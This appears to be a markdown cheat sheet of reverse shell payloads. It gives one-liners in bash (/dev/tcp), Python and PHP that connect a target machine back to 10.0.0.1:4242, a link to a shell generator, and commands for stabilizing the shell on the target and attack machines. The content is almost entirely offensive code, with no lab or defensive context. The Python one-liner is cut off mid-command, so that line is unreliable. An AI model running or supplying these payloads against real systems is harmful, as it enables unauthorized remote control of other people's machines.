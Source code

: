 # Reverse Shells
1. [Reverse Shell Generator](https://www.revshells.com/)

2. Bash
    ```
    bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
    ```
3. Python
    ```
    python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("10.0.0.1",4242)
    ```
4. PHP
    ```
    php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
    ```

# Reverse Shell Stabilization
1. Via Python
    ```
    (On Target Machine) python -c 'import pty; pty.spawn("/bin/bash")'
    (On Attack Machine) stty raw -echo; fg; reset
    ```
2. Via script
    ```
    (On Target Machine) /usr/bin/script -qc /bin/bash /dev/null
    (On Attack Machine) stty raw -echo; fg; reset
    ```
